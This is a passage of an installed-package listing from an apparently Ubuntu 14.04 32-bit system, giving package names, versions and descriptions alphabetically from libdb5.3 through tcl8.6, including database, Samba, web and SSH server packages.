libdb5.3:i386 5.3.28-3ubuntu3 Berkeley v5.3 Database Libraries [runtime]
libdbd-mysql-perl 4.025-1 Perl5 database interface to the MySQL database
libdbi-perl 1.630-1 Perl Database Interface (DBI)
libdbus-1-3:i386 1.6.18-0ubuntu4.3 simple interprocess messaging system (library)
libdbus-glib-1-2:i386 0.100.2-1 simple interprocess messaging system (GLib-based shared library)
libdebconfclient0:i386 0.187ubuntu1 Debian Configuration Management System (C-implementation library)
libdevmapper-event1.02.1:i386 2:1.02.77-6ubuntu2 Linux Kernel Device Mapper event support library
libdevmapper1.02.1:i386 2:1.02.77-6ubuntu2 Linux Kernel Device Mapper userspace library
libdns100 1:9.9.5.dfsg-3ubuntu0.8 DNS Shared Library used by BIND
libdpkg-perl 1.17.5ubuntu5.5 Dpkg perl modules
libdrm2:i386 2.4.64-1~ubuntu14.04.1 Userspace interface to kernel DRM services -- runtime
libedit2:i386 3.1-20130712-2 BSD editline and history libraries
libelf1:i386 0.158-0ubuntu5.2 library to read and write ELF files
libept1.4.12:i386 1.0.12 High-level library for managing Debian package information
libestr0 0.1.9-0ubuntu2 Helper functions for handling strings (lib)
libevent-2.0-5:i386 2.0.21-stable-1ubuntu1.14.04.1 Asynchronous event notification library
libexpat1:i386 2.1.0-4ubuntu1.1 XML parsing C library - runtime library
libfakeroot:i386 1.20-3ubuntu2 tool for simulating superuser privileges - shared libraries
libffi6:i386 3.1~rc1+r3.0.13-12ubuntu0.1 Foreign Function Interface library runtime
libfile-copy-recursive-perl 0.38-1 Perl extension for recursively copying files and directories
libfile-fcntllock-perl 0.14-2build1 Perl module for file locking with fcntl(2)
libfontconfig1:i386 2.11.0-0ubuntu4.1 generic font configuration library - runtime
libfreetype6:i386 2.5.2-1ubuntu2.5 FreeType 2 font engine, shared library files
libfribidi0:i386 0.19.6-1 Free Implementation of the Unicode BiDi algorithm
libfuse2:i386 2.9.2-4ubuntu4.14.04.1 Filesystem in Userspace (library)
libgc1c2:i386 1:7.2d-5ubuntu2 conservative garbage collector for C and C++
libgcc-4.8-dev:i386 4.8.4-2ubuntu1~14.04.1 GCC support library (development files)
libgcc1:i386 1:4.9.3-0ubuntu4 GCC support library
libgck-1-0:i386 3.10.1-1 Glib wrapper library for PKCS#11 - runtime
libgcr-3-common 3.10.1-1 Library for Crypto UI related tasks - common files
libgcr-base-3-1:i386 3.10.1-1 Library for Crypto related tasks
libgcrypt11:i386 1.5.3-2ubuntu4.3 LGPL Crypto library - runtime library
libgcrypt11-dev 1.5.3-2ubuntu4.3 LGPL Crypto library - development files
libgd3:i386 2.1.0-3 GD Graphics Library
libgdbm3:i386 1.8.3-12build1 GNU dbm database routines (runtime version)
libgeoip1:i386 1.6.0-1 non-DNS IP-to-country resolver library
libgirepository-1.0-1 1.40.0-1ubuntu0.2 Library for handling GObject introspection data (runtime library)
libglib2.0-0:i386 2.40.2-0ubuntu1 GLib library of C routines
libglib2.0-data 2.40.2-0ubuntu1 Common files for GLib library
libgmp10:i386 2:5.1.3+dfsg-1ubuntu1 Multiprecision arithmetic library
libgnutls-dev 2.12.23-12ubuntu2.5 GNU TLS library - development files
libgnutls-openssl27:i386 2.12.23-12ubuntu2.5 GNU TLS library - OpenSSL wrapper
libgnutls26:i386 2.12.23-12ubuntu2.5 GNU TLS library - runtime library
libgnutlsxx27:i386 2.12.23-12ubuntu2.5 GNU TLS library - C++ runtime library
libgomp1:i386 4.8.4-2ubuntu1~14.04.1 GCC OpenMP (GOMP) support library
libgpg-error-dev 1.12-0.2ubuntu1 library for common error values and messages in GnuPG components (development)
libgpg-error0:i386 1.12-0.2ubuntu1 library for common error values and messages in GnuPG components
libgpm2:i386 1.20.4-6.1 General Purpose Mouse - shared library
libgssapi-krb5-2:i386 1.12+dfsg-2ubuntu5.2 MIT Kerberos runtime libraries - krb5 GSS-API Mechanism
libgssapi3-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - GSSAPI support library
libgssrpc4:i386 1.12+dfsg-2ubuntu5.2 MIT Kerberos runtime libraries - GSS enabled ONCRPC
libhcrypto4-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - crypto library
libhdb9-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - kadmin server library
libheimbase1-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - Base library
libheimntlm0-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - NTLM support library
libhtml-template-perl 2.95-1 module for using HTML templates with Perl
libhx509-5-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - X509 support library
libidn11:i386 1.28-1ubuntu2 GNU Libidn library, implementation of IETF IDN specifications
libidn11-dev 1.28-1ubuntu2 Development files for GNU Libidn, an IDN library
libio-string-perl 1.08-3 Emulate IO::File interface for in-core strings
libisc95 1:9.9.5.dfsg-3ubuntu0.8 ISC Shared Library used by BIND
libisccc90 1:9.9.5.dfsg-3ubuntu0.8 Command Channel Library used by BIND
libisccfg90 1:9.9.5.dfsg-3ubuntu0.8 Config File Handling Library used by BIND
libisl10:i386 0.12.2-1 manipulating sets and relations of integer points bounded by linear constraints
libitm1:i386 4.8.4-2ubuntu1~14.04.1 GNU Transactional Memory Library
libiw30:i386 30~pre9-8ubuntu1 Wireless tools - library
libjbig0:i386 2.0-2ubuntu4.1 JBIGkit libraries
libjpeg-turbo8:i386 1.3.0-0ubuntu2 IJG JPEG compliant runtime library.
libjpeg8:i386 8c-2ubuntu8 Independent JPEG Group's JPEG runtime library (dependency package)
libjs-codemirror 2.23-1 JavaScript editor interface for code-like content
libjs-jquery 1.7.2+dfsg-2ubuntu1 JavaScript library for dynamic web applications
libjs-jquery-cookie 8-2 jQuery cookie plugin
libjs-jquery-event-drag 8-2 jQuery Event Drag
libjs-jquery-metadata 8-2 jQuery plugin for parsing metadata from elements
libjs-jquery-mousewheel 8-2 jQuery Mousewheel Plugin
libjs-jquery-tablesorter 8-2 Flexible client-side table sorting
libjs-jquery-ui 1.10.1+dfsg-1 JavaScript UI library for dynamic web applications
libjs-underscore 1.4.4-2ubuntu1 JavaScript's functional programming helper library
libjson-c2:i386 0.11-3ubuntu1.2 JSON manipulation library - shared library
libjson0:i386 0.11-3ubuntu1.2 JSON manipulation library (transitional package)
libk5crypto3:i386 1.12+dfsg-2ubuntu5.2 MIT Kerberos runtime libraries - Crypto Library
libkadm5clnt-mit9:i386 1.12+dfsg-2ubuntu5.2 MIT Kerberos runtime libraries - Administration Clients
libkadm5srv-mit9:i386 1.12+dfsg-2ubuntu5.2 MIT Kerberos runtime libraries - KDC and Admin Server
libkdb5-7:i386 1.12+dfsg-2ubuntu5.2 MIT Kerberos runtime libraries - Kerberos database
libkdc2-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - KDC support library
libkeyutils1:i386 1.5.6-1 Linux Key Management Utilities (library)
libklibc 2.0.3-0ubuntu1 minimal libc subset for use with initramfs
libkmod2:i386 15-0ubuntu6 libkmod shared library
libkrb5-26-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - libraries
libkrb5-3:i386 1.12+dfsg-2ubuntu5.2 MIT Kerberos runtime libraries
libkrb5-dev 1.12+dfsg-2ubuntu5.2 Headers and development libraries for MIT Kerberos
libkrb5support0:i386 1.12+dfsg-2ubuntu5.2 MIT Kerberos runtime libraries - Support library
libldap-2.4-2:i386 2.4.31-1+nmu2ubuntu8.2 OpenLDAP libraries
libldap2-dev:i386 2.4.31-1+nmu2ubuntu8.2 OpenLDAP development libraries
libldb1:i386 1:1.1.16-1ubuntu0.1 LDAP-like embedded database - shared library
liblocale-gettext-perl 1.05-7build3 module using libc functions for internationalization in Perl
liblockfile-bin 1.09-6ubuntu1 support binaries for and cli utilities based on liblockfile
liblockfile1:i386 1.09-6ubuntu1 NFS-safe locking library
liblog-message-simple-perl 0.10-1 simplified interface to Log::Message
liblwres90 1:9.9.5.dfsg-3ubuntu0.8 Lightweight Resolver Library used by BIND
liblzma5:i386 5.1.1alpha+20120614-2ubuntu2 XZ-format compression library
libmagic1:i386 1:5.14-2ubuntu3.3 File type determination library using "magic" numbers
libmcrypt4 2.5.8-3.1ubuntu1 De-/Encryption Library
libmhash2:i386 0.9.9.9-4 Library for cryptographic hashing and message authentication
libmodule-pluggable-perl 5.1-1 module for giving modules the ability to have plugins
libmount1:i386 2.20.1-5.1ubuntu20.7 block device id library
libmpc3:i386 1.0.1-1ubuntu1 multiple precision complex floating-point library
libmpdec2:i386 2.4.0-6 library for decimal floating point arithmetic (runtime library)
libmpfr4:i386 3.1.2-1 multiple precision floating-point computation
libmysqlclient18:i386 5.5.47-0ubuntu0.14.04.1 MySQL database client library
libncurses5:i386 5.9+20140118-1ubuntu1 shared libraries for terminal handling
libncursesw5:i386 5.9+20140118-1ubuntu1 shared libraries for terminal handling (wide character support)
libnewt0.52:i386 0.52.15-2ubuntu5 Not Erik's Windowing Toolkit - text mode windowing with slang
libnfnetlink0:i386 1.0.1-2 Netfilter netlink library
libnih-dbus1:i386 1.0.3-4ubuntu25 NIH D-Bus Bindings Library
libnih1:i386 1.0.3-4ubuntu25 NIH Utility Library
libnl-3-200:i386 3.2.21-1 library for dealing with netlink sockets
libnl-genl-3-200:i386 3.2.21-1 library for dealing with netlink sockets - generic netlink
libntdb1:i386 1.0-2ubuntu1 New Trivial Database - shared library
libnuma1:i386 2.0.9~rc5-1ubuntu3.14.04.2 Libraries for controlling NUMA policy
libp11-kit-dev 0.20.2-2ubuntu2 Library for loading and coordinating access to PKCS#11 modules - development
libp11-kit0:i386 0.20.2-2ubuntu2 Library for loading and coordinating access to PKCS#11 modules - runtime
libpam-cap:i386 1:2.24-0ubuntu2 PAM module for implementing capabilities
libpam-modules:i386 1.1.8-1ubuntu2.2 Pluggable Authentication Modules for PAM
libpam-modules-bin 1.1.8-1ubuntu2.2 Pluggable Authentication Modules for PAM - helper binaries
libpam-runtime 1.1.8-1ubuntu2.2 Runtime support for the PAM library
libpam-smbpass:i386 2:4.1.6+dfsg-1ubuntu2.14.04.13 pluggable authentication module for Samba
libpam-systemd:i386 204-5ubuntu20.18 system and service manager - PAM module
libpam0g:i386 1.1.8-1ubuntu2.2 Pluggable Authentication Modules library
libparse-debianchangelog-perl 1.2.0-1ubuntu1 parse Debian changelogs and output them in other formats
libparted0debian1:i386 2.3-19ubuntu1.14.04.1 disk partition manipulator - shared library
libpcap0.8:i386 1.5.3-2 system interface for user-level packet capture
libpci3:i386 1:3.2.1-1ubuntu5.1 Linux PCI Utilities (shared library)
libpcre3:i386 1:8.31-2ubuntu2.2 Perl 5 Compatible Regular Expression Library - runtime files
libpcsclite1:i386 1.8.10-1ubuntu1 Middleware to access a smart card using PC/SC (library)
libpipeline1:i386 1.3.0-1 pipeline manipulation library
libplymouth2:i386 0.8.8-0ubuntu17.1 graphical boot animation and logger - shared libraries
libpng12-0:i386 1.2.50-1ubuntu2.14.04.2 PNG library - runtime
libpod-latex-perl 0.61-1 module to convert Pod data to formatted LaTeX
libpolkit-agent-1-0:i386 0.105-4ubuntu3.14.04.1 PolicyKit Authentication Agent API
libpolkit-backend-1-0:i386 0.105-4ubuntu3.14.04.1 PolicyKit backend API
libpolkit-gobject-1-0:i386 0.105-4ubuntu3.14.04.1 PolicyKit Authorization API
libpopt0:i386 1.16-8ubuntu1 lib for parsing cmdline parameters
libpq-dev 9.3.11-0ubuntu0.14.04 header files for libpq5 (PostgreSQL library)
libpq5 9.3.11-0ubuntu0.14.04 PostgreSQL C client library
libprocps3:i386 1:3.3.9-1ubuntu2.2 library for accessing process information from /proc
libpython-stdlib:i386 2.7.5-5ubuntu3 interactive high-level object-oriented language (default python version)
libpython2.7:i386 2.7.6-8ubuntu0.2 Shared Python runtime library (version 2.7)
libpython2.7-minimal:i386 2.7.6-8ubuntu0.2 Minimal subset of the Python language (version 2.7)
libpython2.7-stdlib:i386 2.7.6-8ubuntu0.2 Interactive high-level object-oriented language (standard library, version 2.7)
libpython3-stdlib:i386 3.4.0-0ubuntu2 interactive high-level object-oriented language (default python3 version)
libpython3.4-minimal:i386 3.4.3-1ubuntu1~14.04.3 Minimal subset of the Python language (version 3.4)
libpython3.4-stdlib:i386 3.4.3-1ubuntu1~14.04.3 Interactive high-level object-oriented language (standard library, version 3.4)
libquadmath0:i386 4.8.4-2ubuntu1~14.04.1 GCC Quad-Precision Math Library
libreadline5:i386 5.2+dfsg-2 GNU readline and history libraries, run-time libraries
libreadline6:i386 6.3-4ubuntu2 GNU readline and history libraries, run-time libraries
libroken18-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - roken support library
librtmp-dev 2.4+20121230.gitdf6c518-1 toolkit for RTMP streams (development files)
librtmp0:i386 2.4+20121230.gitdf6c518-1 toolkit for RTMP streams (shared library)
libsasl2-2:i386 2.1.25.dfsg1-17build1 Cyrus SASL - authentication abstraction library
libsasl2-modules:i386 2.1.25.dfsg1-17build1 Cyrus SASL - pluggable authentication modules
libsasl2-modules-db:i386 2.1.25.dfsg1-17build1 Cyrus SASL - pluggable authentication modules (DB)
libsctp-dev 1.0.15+dfsg-1 user-space access to Linux Kernel SCTP - development files
libsctp1:i386 1.0.15+dfsg-1 user-space access to Linux Kernel SCTP - shared library
libselinux1:i386 2.2.2-1ubuntu0.1 SELinux runtime shared libraries
libsemanage-common 2.2-1 Common files for SELinux policy management libraries
libsemanage1:i386 2.2-1 SELinux policy management library
libsepol1:i386 2.2-1ubuntu0.1 SELinux library for manipulating binary security policies
libsigc++-2.0-0c2a:i386 2.2.10-0.2ubuntu2 type-safe Signal Framework for C++ - runtime
libsigsegv2:i386 2.10-2 Library for handling page faults in a portable way
libslang2:i386 2.2.4-15ubuntu1 S-Lang programming library - runtime version
libsqlite3-0:i386 3.8.2-1ubuntu2.1 SQLite 3 shared library
libss2:i386 1.42.9-3ubuntu1.3 command-line interface parsing library
libssl-dev:i386 1.0.1f-1ubuntu2.18 Secure Sockets Layer toolkit - development files
libssl-doc 1.0.1f-1ubuntu2.18 Secure Sockets Layer toolkit - development documentation
libssl1.0.0:i386 1.0.1f-1ubuntu2.18 Secure Sockets Layer toolkit - shared libraries
libstdc++-4.8-dev:i386 4.8.4-2ubuntu1~14.04.1 GNU Standard C++ Library v3 (development files)
libstdc++6:i386 4.8.4-2ubuntu1~14.04.1 GNU Standard C++ Library v3
libsub-name-perl 0.05-1build4 module for assigning a new name to referenced sub
libsystemd-daemon0:i386 204-5ubuntu20.18 systemd utility library
libsystemd-login0:i386 204-5ubuntu20.18 systemd login utility library
libtalloc2:i386 2.1.0-1 hierarchical pool based memory allocator
libtasn1-6:i386 3.4-3ubuntu0.3 Manage ASN.1 structures (runtime)
libtasn1-6-dev 3.4-3ubuntu0.3 Manage ASN.1 structures (development)
libtcl8.5:i386 8.5.15-2ubuntu1 Tcl (the Tool Command Language) v8.5 - run-time library files
libtcl8.6:i386 8.6.1-4ubuntu1 Tcl (the Tool Command Language) v8.6 - run-time library files
libtdb1:i386 1.2.12-1 Trivial Database - shared library
libterm-readkey-perl 2.31-1 perl module for simple terminal control
libterm-ui-perl 0.42-1 Term::ReadLine UI made easy
libtevent0:i386 0.9.19-1 talloc-based event loop library - shared library
libtext-charwidth-perl 0.04-7build3 get display widths of characters on the terminal
libtext-iconv-perl 1.7-5build2 converts between character sets in Perl
libtext-soundex-perl 3.4-1build1 implementation of the soundex algorithm
libtext-wrapi18n-perl 0.06-7 internationalized substitute of Text::Wrap
libtiff5:i386 4.0.3-7ubuntu0.4 Tag Image File Format (TIFF) library
libtimedate-perl 2.3000-1 collection of modules to manipulate date/time information
libtinfo5:i386 5.9+20140118-1ubuntu1 shared low-level terminfo library for terminal handling
libudev1:i386 204-5ubuntu20.18 libudev shared library
libusb-0.1-4:i386 2:0.1.12-23.3ubuntu1 userspace USB programming library
libusb-1.0-0:i386 2:1.0.17-1ubuntu2 userspace USB programming library
libustr-1.0-1:i386 1.0.4-3ubuntu2 Micro string library: shared library
libuuid1:i386 2.20.1-5.1ubuntu20.7 Universally Unique ID library
libvpx1:i386 1.3.0-2 VP8 video codec (shared library)
libwbclient0:i386 2:4.1.6+dfsg-1ubuntu2.14.04.13 Samba winbind client library
libwind0-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - stringprep implementation
libwrap0:i386 7.6.q-25 Wietse Venema's TCP wrappers library
libx11-6:i386 2:1.6.2-1ubuntu2 X11 client-side library
libx11-data 2:1.6.2-1ubuntu2 X11 client-side library
libxapian22 1.2.16-2ubuntu1 Search engine library
libxau6:i386 1:1.0.8-1 X11 authorisation library
libxcb1:i386 1.10-2ubuntu1 X C Binding
libxdmcp6:i386 1:1.1.1-1 X11 Display Manager Control Protocol library
libxext6:i386 2:1.3.2-1ubuntu0.0.14.04.1 X11 miscellaneous extension library
libxml2:i386 2.9.1+dfsg1-3ubuntu4.7 GNOME XML library
libxml2-dev:i386 2.9.1+dfsg1-3ubuntu4.7 Development files for the GNOME XML library
libxmuu1:i386 2:1.1.1-1 X11 miscellaneous micro-utility library
libxpm4:i386 1:3.5.10-1 X11 pixmap library
libxtables10 1.4.21-1ubuntu1 netfilter xtables library
linux-firmware 1.127.20 Firmware for Linux kernel drivers
linux-generic 3.13.0.24.28 Complete Generic Linux kernel and headers
linux-headers-3.13.0-24 3.13.0-24.47 Header files related to Linux kernel version 3.13.0
linux-headers-3.13.0-24-generic 3.13.0-24.47 Linux kernel headers for version 3.13.0 on 32 bit x86 SMP
linux-headers-generic 3.13.0.24.28 Generic Linux kernel headers
linux-image-3.13.0-24-generic 3.13.0-24.47 Linux kernel image for version 3.13.0 on 32 bit x86 SMP
linux-image-extra-3.13.0-24-generic 3.13.0-24.47 Linux kernel extra modules for version 3.13.0 on 32 bit x86 SMP
linux-image-generic 3.13.0.24.28 Generic Linux kernel image
linux-libc-dev:i386 3.13.0-83.127 Linux Kernel Headers for development
lksctp-tools 1.0.15+dfsg-1 user-space access to Linux Kernel SCTP - commandline tools
locales 2.13+git20120306-12.1 common files for locale support
lockfile-progs 0.1.17 Programs for locking and unlocking files and mailboxes
login 1:4.1.5.1-1ubuntu9.2 system login tools
logrotate 3.8.7-1ubuntu1 Log rotation utility
lsb-base 4.1+Debian11ubuntu6 Linux Standard Base 4.1 init script functionality
lsb-release 4.1+Debian11ubuntu6 Linux Standard Base version reporting utility
lshw 02.16-2ubuntu1.3 information about hardware configuration
lsof 4.86+dfsg-1ubuntu2 Utility to list open files
ltrace 0.7.3-4ubuntu5.1 Tracks runtime library calls in dynamically linked programs
lvm2 2.02.98-6ubuntu2 Linux Logical Volume Manager
make 3.81-8.2ubuntu3 An utility for Directing compilation.
makedev 2.3.1-93ubuntu1 creates device files in /dev
man-db 2.6.7.1-1ubuntu1 on-line manual pager
manpages 3.54-1ubuntu1 Manual pages about using a GNU/Linux system
manpages-dev 3.54-1ubuntu1 Manual pages about using GNU/Linux for development
mawk 1.3.3-17ubuntu2 a pattern scanning and text processing language
mcrypt 2.6.8-1.3 Replacement for old unix crypt(1)
memtest86+ 4.20-1.1ubuntu8 thorough real-mode memory tester
mime-support 3.54ubuntu1.1 MIME files 'mime.types' & 'mailcap', and support programs
mlocate 0.26-1ubuntu1 quickly find files on the filesystem based on their name
module-init-tools 15-0ubuntu6 transitional dummy package (module-init-tools to kmod)
mount 2.20.1-5.1ubuntu20.7 Tools for mounting and manipulating filesystems
mountall 2.53 filesystem mounting tool
mtr-tiny 0.85-2 Full screen ncurses traceroute tool
multiarch-support 2.19-0ubuntu6.7 Transitional package to ensure multiarch compatibility
mysql-client-5.5 5.5.47-0ubuntu0.14.04.1 MySQL database client binaries
mysql-client-core-5.5 5.5.47-0ubuntu0.14.04.1 MySQL database core client binaries
mysql-common 5.5.47-0ubuntu0.14.04.1 MySQL database common files, e.g. /etc/mysql/my.cnf
mysql-server 5.5.47-0ubuntu0.14.04.1 MySQL database server (metapackage depending on the latest version)
mysql-server-5.5 5.5.47-0ubuntu0.14.04.1 MySQL database server binaries and system database setup
mysql-server-core-5.5 5.5.47-0ubuntu0.14.04.1 MySQL database server binaries
nano 2.2.6-1ubuntu1 small, friendly text editor inspired by Pico
ncurses-base 5.9+20140118-1ubuntu1 basic terminal type definitions
ncurses-bin 5.9+20140118-1ubuntu1 terminal-related programs and man pages
ncurses-term 5.9+20140118-1ubuntu1 additional terminal type definitions
net-tools 1.60-25ubuntu2.1 The NET-3 networking toolkit
netbase 5.2 Basic TCP/IP networking system
netcat-traditional 1.10-40 TCP/IP swiss army knife
ngircd 21-1 lightweight Internet Relay Chat server
ntfs-3g 1:2013.1.13AR.1-2ubuntu2 read/write NTFS driver for FUSE
ntpdate 1:4.2.6.p5+dfsg-3ubuntu2.14.04.8 client for setting system time from NTP servers
openssh-client 1:6.6p1-2ubuntu2.6 secure shell (SSH) client, for secure access to remote machines
openssh-server 1:6.6p1-2ubuntu2.6 secure shell (SSH) server, for secure access from remote machines
openssh-sftp-server 1:6.6p1-2ubuntu2.6 secure shell (SSH) sftp server module, for SFTP access from remote machines
openssl 1.0.1f-1ubuntu2.18 Secure Sockets Layer toolkit - cryptographic utility
os-prober 1.63ubuntu1.1 utility to detect other OSes on a set of drives
p7zip-full 9.20.1~dfsg.1-4+deb7u1build0.14.04.1 7z and 7za file archivers with high compression ratio
parted 2.3-19ubuntu1.14.04.1 disk partition manipulator
passwd 1:4.1.5.1-1ubuntu9.2 change and administer password and group data
patch 2.7.1-4ubuntu2.3 Apply a diff file to an original
pciutils 1:3.2.1-1ubuntu5.1 Linux PCI Utilities
perl 5.18.2-2ubuntu1.1 Larry Wall's Practical Extraction and Report Language
perl-base 5.18.2-2ubuntu1.1 minimal Perl system
perl-modules 5.18.2-2ubuntu1.1 Core Perl modules
php-gettext 1.0.11-1 read gettext MO files directly, without requiring anything other than PHP
php5 5.5.9+dfsg-1ubuntu4.14 server-side, HTML-embedded scripting language (metapackage)
php5-cgi 5.5.9+dfsg-1ubuntu4.14 server-side, HTML-embedded scripting language (CGI binary)
php5-cli 5.5.9+dfsg-1ubuntu4.14 command-line interpreter for the php5 scripting language
php5-common 5.5.9+dfsg-1ubuntu4.14 Common files for packages built from the php5 source
php5-curl 5.5.9+dfsg-1ubuntu4.14 CURL module for php5
php5-gd 5.5.9+dfsg-1ubuntu4.14 GD module for php5
php5-json 1.3.2-2build1 JSON module for php5
php5-mcrypt 5.4.6-0ubuntu5 MCrypt module for php5
php5-mysql 5.5.9+dfsg-1ubuntu4.14 MySQL module for php5
php5-pgsql 5.5.9+dfsg-1ubuntu4.14 PostgreSQL module for php5
php5-readline 5.5.9+dfsg-1ubuntu4.14 Readline module for php5
phpmyadmin 4:4.0.10-1 MySQL web administration tool
phppgadmin 5.1-1 web-based administration tool for PostgreSQL
pkg-config 0.26-1ubuntu4 manage compile and link flags for libraries
plymouth 0.8.8-0ubuntu17.1 graphical boot animation and logger - main package
plymouth-theme-ubuntu-text 0.8.8-0ubuntu17.1 graphical boot animation and logger - ubuntu-logo theme
policykit-1 0.105-4ubuntu3.14.04.1 framework for managing administrative policies and privileges
popularity-contest 1.57ubuntu1 Vote for your favourite packages automatically
postfix 2.11.0-1ubuntu1 High-performance mail transport agent
postgresql 9.3+154ubuntu1 object-relational SQL database (supported version)
postgresql-9.3 9.3.11-0ubuntu0.14.04 object-relational SQL database, version 9.3 server
postgresql-client-9.3 9.3.11-0ubuntu0.14.04 front-end programs for PostgreSQL 9.3
postgresql-client-common 154ubuntu1 manager for multiple PostgreSQL client versions
postgresql-common 154ubuntu1 PostgreSQL database-cluster manager
postgresql-doc 9.3+154ubuntu1 documentation for the PostgreSQL database management system
postgresql-doc-9.3 9.3.11-0ubuntu0.14.04 documentation for the PostgreSQL database management system
powermgmt-base 1.31build1 Common utils and configs for power management
ppp 2.4.5-5.1ubuntu2.2 Point-to-Point Protocol (PPP) - daemon
pppconfig 2.3.19ubuntu1 A text menu based utility for configuring ppp
pppoeconf 1.20ubuntu1 configures PPPoE/ADSL connections
procps 1:3.3.9-1ubuntu2.2 /proc file system utilities
psmisc 22.20-1ubuntu2 utilities that use the proc file system
python 2.7.5-5ubuntu3 interactive high-level object-oriented language (default version)
python-apt 0.9.3.5ubuntu2 Python interface to libapt-pkg
python-apt-common 0.9.3.5ubuntu2 Python interface to libapt-pkg (locales)
python-chardet 2.0.1-2build2 universal character encoding detector
python-configobj 4.7.2+ds-5build1 simple but powerful config file reader and writer for Python
python-crypto 2.6.1-4build1 cryptographic algorithms and protocols for Python
python-debian 0.1.21+nmu2ubuntu2 Python modules to work with Debian-related data formats
python-dnspython 1.11.1-1build1 DNS toolkit for Python
python-gdbm 2.7.5-1ubuntu1 GNU dbm database support for Python
python-ldb 1:1.1.16-1ubuntu0.1 Python bindings for LDB
python-minimal 2.7.5-5ubuntu3 minimal subset of the Python language (default version)
python-ntdb 1.0-2ubuntu1 Python bindings for NTDB
python-openssl 0.13-2ubuntu6 Python 2 wrapper around the OpenSSL library
python-pam 0.4.2-13.1ubuntu3 Python interface to the PAM library
python-pkg-resources 3.3-1ubuntu2 Package Discovery and Resource Access using pkg_resources
python-requests 2.2.1-1ubuntu0.3 elegant and simple HTTP library for Python, built for human beings
python-samba 2:4.1.6+dfsg-1ubuntu2.14.04.13 Python bindings for Samba
python-serial 2.6-1build1 pyserial - module encapsulating access for the serial port
python-six 1.5.2-1ubuntu1 Python 2 and 3 compatibility library (Python 2 interface)
python-talloc 2.1.0-1 hierarchical pool based memory allocator - Python bindings
python-tdb 1.2.12-1 Python bindings for TDB
python-twisted-bin 13.2.0-1ubuntu1 Event-based framework for internet applications
python-twisted-core 13.2.0-1ubuntu1 Event-based framework for internet applications
python-urllib3 1.7.1-1ubuntu4 HTTP library with thread-safe connection pooling for Python
python-xapian 1.2.16-2ubuntu1 Xapian search engine interface for Python
python-zope.interface 4.0.5-1ubuntu4 Interfaces for Python
python2.7 2.7.6-8ubuntu0.2 Interactive high-level object-oriented language (version 2.7)
python2.7-minimal 2.7.6-8ubuntu0.2 Minimal subset of the Python language (version 2.7)
python3 3.4.0-0ubuntu2 interactive high-level object-oriented language (default python3 version)
python3-apport 2.14.1-0ubuntu3.19 Python 3 library for Apport crash report handling
python3-apt 0.9.3.5ubuntu2 Python 3 interface to libapt-pkg
python3-commandnotfound 0.3ubuntu12 Python 3 bindings for command-not-found.
python3-dbus 1.2.0-2build2 simple interprocess messaging system (Python 3 interface)
python3-distupgrade 1:0.220.8 manage release upgrades
python3-gdbm:i386 3.4.3-1~14.04.2 GNU dbm database support for Python 3.x
python3-gi 3.12.0-1ubuntu1 Python 3 bindings for gobject-introspection libraries
python3-minimal 3.4.0-0ubuntu2 minimal subset of the Python language (default python3 version)
python3-newt 0.52.15-2ubuntu5 NEWT module for Python3
python3-problem-report 2.14.1-0ubuntu3.19 Python 3 library to handle problem reports
python3-pycurl 7.19.3-0ubuntu3 Python 3 bindings to libcurl
python3-software-properties 0.92.37.7 manage the repositories that you install software from
python3-update-manager 1:0.196.14 python 3.x module for update-manager
python3.4 3.4.3-1ubuntu1~14.04.3 Interactive high-level object-oriented language (version 3.4)
python3.4-minimal 3.4.3-1ubuntu1~14.04.3 Minimal subset of the Python language (version 3.4)
rar 2:4.2.0-1 Archiver for .rar files
readline-common 6.3-4ubuntu2 GNU readline and history libraries, common files
resolvconf 1.69ubuntu1.1 name server information handler
rsync 3.1.0-2ubuntu0.2 fast, versatile, remote (and local) file-copying tool
rsyslog 7.4.4-1ubuntu2.6 reliable system and kernel logging daemon
run-one 1.17-0ubuntu1 run just one instance of a command and its args at a time
samba 2:4.1.6+dfsg-1ubuntu2.14.04.13 SMB/CIFS file, print, and login server for Unix
samba-common 2:4.1.6+dfsg-1ubuntu2.14.04.13 common files used by both the Samba server and client
samba-common-bin 2:4.1.6+dfsg-1ubuntu2.14.04.13 Samba common files used by both the server and the client
samba-dsdb-modules 2:4.1.6+dfsg-1ubuntu2.14.04.13 Samba Directory Services Database
samba-libs:i386 2:4.1.6+dfsg-1ubuntu2.14.04.13 Samba core libraries
samba-vfs-modules 2:4.1.6+dfsg-1ubuntu2.14.04.13 Samba Virtual FileSystem plugins
screen 4.1.0~20120320gitdb59704-9 terminal multiplexer with VT100/ANSI terminal emulation
sed 4.2.2-4ubuntu1 The GNU sed stream editor
sensible-utils 0.0.9 Utilities for sensible alternative selection
sgml-base 1.26+nmu4ubuntu1 SGML infrastructure and SGML catalog file support
shared-mime-info 1.2-0ubuntu3 FreeDesktop.org shared MIME database and spec
software-properties-common 0.92.37.7 manage the repositories that you install software from (common)
ssh-import-id 3.21-0ubuntu1 securely retrieve an SSH public key and install it locally
ssl-cert 1.0.33 simple debconf wrapper for OpenSSL
strace 4.8-1ubuntu5 A system call tracer
sudo 1.8.9p5-1ubuntu1.2 Provide limited super user privileges to specific users
systemd-services 204-5ubuntu20.18 systemd runtime services
systemd-shim 6-2bzr1 shim for systemd
sysv-rc 2.88dsf-41ubuntu6.3 System-V-like runlevel change mechanism
sysvinit-utils 2.88dsf-41ubuntu6.3 System-V-like utilities
tar 1.27.1-1 GNU version of the tar archiving utility
tasksel 2.88ubuntu15 Tool for selecting tasks for installation on Debian systems
tasksel-data 2.88ubuntu15 Official tasks used for installation of Debian systems
tcl 8.6.0+6ubuntu3 Tool Command Language (default version) - shell
tcl-tclreadline 2.1.0-12 GNU Readline Extension for Tcl/Tk
tcl8.5 8.5.15-2ubuntu1 Tcl (the Tool Command Language) v8.5 - shell
tcl8.6 8.6.1-4ubuntu1 Tcl (the Tool Command Language) v8.6 - shell
